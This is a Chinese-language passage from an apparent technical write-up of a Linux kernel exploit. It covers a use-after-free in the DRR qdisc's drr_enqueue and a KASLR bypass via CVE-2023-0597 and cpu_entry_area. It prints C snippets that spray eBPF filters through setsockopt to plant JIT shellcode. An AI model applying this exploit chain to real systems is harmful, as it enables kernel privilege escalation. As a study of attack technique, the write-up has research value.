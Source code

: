   先来看一下 USE 点，通过 sendmsg 堆喷可以控制 cl 的内容。

```bash
static int drr_enqueue(struct sk_buff *skb, struct Qdisc *sch,
               struct sk_buff **to_free)
{
    unsigned int len = qdisc_pkt_len(skb);
    struct drr_sched *q = qdisc_priv(sch);
    cl = drr_classify(skb, sch, &err);
    first = !cl->qdisc->q.qlen;
    err = qdisc_enqueue(skb, cl->qdisc, to_free);
    return err;
}
```

  qdisc\_enqueue 里面会调用 cl->qdisc->enqueue，作者利用一些技巧在不泄漏地址随机化的情况下在内核中执行 shellcode

1.  堆喷 ebpf，利用 ebpf 指令的操作数在 内核可控位置（sc\_addr）布置 shellcode
2.  利用 CVE-2023-0597 在 cpu\_entry\_area（内核地址固定）处伪造 qdisc->enqueue 到 sc\_addr
3.  占位 cl 劫持 cl->qdisc 到 cpu\_entry\_area
4.  qdisc\_enqueue 调用函数指针跳转到 sc\_addr 执行 shellcode.

  ‍

### 堆喷 shellcode

  用户态可以通过 setsockopt 分配

```bash
struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

  filter 里面就是一堆的 ebpf 指令

```bash
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

  上述指令生成 jit 后的代码如下：

```bash
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```
